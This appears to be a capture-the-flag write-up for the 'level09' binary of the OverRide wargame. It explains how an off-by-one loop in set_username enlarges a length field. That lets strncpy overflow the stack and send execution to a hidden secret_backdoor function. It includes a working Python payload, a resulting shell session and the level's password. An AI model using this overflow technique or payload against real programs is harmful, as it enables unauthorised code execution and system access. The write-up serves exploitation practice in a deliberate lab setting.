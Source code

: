 # level09

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program is vulnerable to `buffer overflow` attack.

First, I found this function while disassembled code, and the goal of the level became obvious. We need to call this function.
```c
void secret_backdoor(void) {
    char tmp[128];

    fgets(tmp, 128, stdin);
    system(tmp);
}
```

Let's find out it's address:
```bash
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

To call this function we need first to analyze the [source code](./source.c):
```c
struct s_data {
    int len;
    char username[40];
    char msg[140];
};
...
void handle_msg() {
    struct s_data data;

    memset(data.username, 0, 40);

    data.len = 140;
    set_username(&data);
    set_msg(&data);
    puts(">: Msg sent!");
}
```

First, thing we see, that `data` contains two buffers that possibly can be overflowed. <br>
The size of this struct is 140 + 40 + 4 = 184 bytes. <br>

From the disassembled code, we can see that in the `handle_msg` 192 bytes allocated on stack. <br>
And the address of beginning of the `data` is `RSP` or `RBP - 192`. <br>
To overwrite return address of this function, we need to overwrite 192 bytes reserved for local variables, <br>
8 bytes for saved `EBP` and the next 8 bytes will be the address of saved `EIP` we need to change.
```asm
handle_msg:
    push   %rbp
    mov    %rsp,%rbp
    sub    $0xc0,%rsp   ; 192 bytes allocated on stack`
   
    lea    -0xc0(%rbp),%rax
    ...
```

Now let's put our attention at `set_msg` function, as it reads a way too more chars than the size of buffer we want to overflow:
```c
void set_msg(struct s_data *data) {
    char tmp[1024];

    memset(tmp, 0, 1024);
    puts(">: Msg @Unix-Dude");
    printf(">>: ");

    fgets(tmp, 1024, stdin);

    strncpy(data->msg, tmp, data->len);
}
```
Well, the only thing that stops us from copying using `strncpy` is `data->len` set to 140 in the `handle_msg`. <br>

A little mistake in the source code helps us to avoid this restriction:
```c
void set_username(struct s_data *data) {
    int i;
    char tmp[140];

    memset(tmp, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");

    fgets(tmp, 128, stdin);

    for (i = 0; i <= 40 && tmp[i]; i++) {
        data->username[i] = tmp[i];
    }
    printf(">: Welcome, %s", data->username);
}
```

Not see ? `for` loop copying `41` bytes instead of 40, and this last byte is the lowest 8 bits of `data->len`. <br>
This helps us to increase data->len up to 0xff or `255`. <br>

We don't need that much, `208` bytes (`0xd0`) will be perfect. <br>
Again, 140 bytes of `msg` + 40 bytes of `username` + 4 bytes of `len` + 8 unused bytes + 8 bytes for saved `EBP` + 8 bytes for new return address.

We should also remember about `\n` if we don't want first `fgets` to read more than we want to.

Let's finish this great project as well as the branch:
```bash
level09@OverRide:~$ (python -c 'print "mhufflep" * 5 + "\xd0\x0a" + "mhufflep" * 25 + "\x00\x00\x55\x55\x55\x55\x48\x8c"[::-1]'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, mhufflepmhufflepmhufflepmhufflepmhufflep�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cd ../end
ls -la
total 13
dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
dr-x--x--x  1 root root   260 Oct  2  2016 ..
-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

## References
- [PIC and PIE](https://stackoverflow.com/questions/28119365/what-are-the-differences-comparing-pie-pic-code-and-executable-on-64-bit-x86-pl)
- [RIP relative addressing](https://stackoverflow.com/questions/44967075/why-does-this-movss-instruction-use-rip-relative-addressing)
- [more PIC and PIE](https://leimao.github.io/blog/PIC-PIE/)